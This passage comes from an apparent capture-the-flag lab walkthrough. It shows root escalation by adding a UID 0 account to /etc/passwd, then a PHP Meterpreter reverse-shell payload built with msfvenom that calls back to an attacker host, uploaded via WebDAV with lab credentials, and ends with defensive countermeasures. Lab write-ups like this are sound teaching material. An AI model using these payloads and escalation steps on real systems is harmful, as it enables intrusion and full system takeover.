4. `0` — Group ID (`GID` `0` is `root`).
5. `root` — comment/GECOS field.
6. `/root` — home directory.
7. `/bin/bash` — login shell.

 
Figure 22 - Adding the root-privileged account line to /etc/passwd in nano.

### Switching to `uwlnew` and Reading `/root/root.txt`

 Now that `uwlnew` is in `/etc/passwd` with UID/GID `0`, I will switch to `uwlnew` using `su`, enter `pass123`, confirm root access, and read `/root/root.txt`.

Commands:
```bash
su uwlnew
cd /
ls
cd /root
ls
cat root.txt
```

What each part means:
- `su uwlnew` switches to the `uwlnew` account (prompts for password `pass123`).
- `cd /` and `ls` check the root directory.
- `cd /root` and `ls` move into `/root` and list files.
- `cat root.txt` reads the root flag file.

 

Figure 23 - Escalating to root via su and reading /root/root.txt to obtain the root flag.

---

## Step 24: Meterpreter Payload & `multi/handler` Setup in Metasploit

Instead of a basic Netcat shell, I can generate a PHP Meterpreter payload with `msfvenom`, catch it with Metasploit's `exploit/multi/handler`, upload it via `cadaver` to `/webdav`, trigger it, and run Meterpreter/shell commands.

### Generating `shell.php` and Starting `multi/handler`

Commands:
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.59.133 LPORT=4444 -f raw > shell.php
msfconsole -q -x "use exploit/multi/handler; set payload php/meterpreter/reverse_tcp; set LHOST 192.168.59.133; set LPORT 4444; exploit -j"
```

What each part means:
- `msfvenom` generates standalone payloads for Metasploit.
- `-p php/meterpreter/reverse_tcp` chooses the PHP Meterpreter reverse TCP payload.
- `LHOST=192.168.59.133` sets my Kali IP as the callback address.
- `LPORT=4444` sets port `4444` as the callback port.
- `-f raw > shell.php` outputs the raw payload directly into `shell.php`.
- `msfconsole -q -x "..."` launches Metasploit quietly (`-q`) and runs (`-x`) the commands to configure `exploit/multi/handler` and start it as a background job (`-j`).

 

Figure 24 - Generating shell.php with msfvenom and starting the multi/handler listener in Metasploit.

### Uploading the Meterpreter Payload via `cadaver`

 I will connect to `/webdav` with `cadaver` using `yamdoot:Swarg`, list files (`ls`), and upload the new `shell.php` (`put`).

Command:
```bash
cadaver http://192.168.59.152/webdav
```

Commands inside `cadaver`:
```text
ls
put /home/kali/shell.php
```

What each part means:
- `cadaver http://192.168.59.152/webdav` connects to the WebDAV share.
- `ls` lists files currently on the WebDAV folder.
- `put /home/kali/shell.php` uploads the Meterpreter `shell.php` file to `/webdav/shell.php`.


 

Figure 25 - Connecting to /webdav with cadaver to upload the Meterpreter payload.

 

Figure 26 - Listing /webdav/ contents in cadaver.

 

 Figure 27 - Uploading the generated shell.php payload via put.

### Interacting with the Meterpreter Session and Checking System Info

After triggering `http://192.168.59.152/webdav/shell.php`, a Meterpreter session opens. I will list sessions, interact with session 1, check user and OS info, and drop into a shell to check network interfaces.

Commands in Metasploit / Meterpreter / shell:
```text
sessions
sessions -i 1
getuid
sysinfo
shell
ifconfig
```

What each part means:
- `sessions` lists active sessions caught by `multi/handler`.
- `sessions -i 1` interacts with session ID `1`.
- `getuid` shows the current user account running the payload on the target (`www-data`).
- `sysinfo` shows target hostname, OS version, architecture, and Meterpreter type.
- `shell` drops from Meterpreter into a standard OS command shell.
- `ifconfig` displays network interfaces and IP configuration on the target.

 

 Figure 28 - Listing active Meterpreter sessions in Metasploit.
 
 
 
 Figure 29 - Opening interaction with Meterpreter session 1.
 
 
 
  Figure 30 - : Checking current user (www-data) and target system info in Meterpreter.
  
 
 
  Figure 31 - Dropping into a system shell and checking network interface details with ifconfig.

---

## Countermeasures

- Disable or restrict WebDAV upload access (`PUT`/`MKCOL`), require strong authentication, and block execution of uploaded scripts (such as `.php`) inside upload directories.
- Do not leave sensitive files or hints (like `tips.txt` and `creds.txt`) accessible on public web directories or unauthenticated TFTP shares, and avoid storing credentials in plain text or easily reversible encodings like Base64 or Brainfuck.
- Restrict or disable unnecessary services like TFTP (UDP port 69) when not needed, or bind/firewall them strictly to trusted management hosts.
- Remove unnecessary SUID permissions from binaries such as `/bin/nano` (and `/mnt/hell.sh` broad `rwx` permissions) and protect `/etc/passwd` (`root:root`, `644`) so standard users cannot add UID `0` accounts.
- Keep Apache, Ubuntu, and OpenSSH patched and up to date, and monitor logs for unusual web requests, file uploads, and privilege changes.
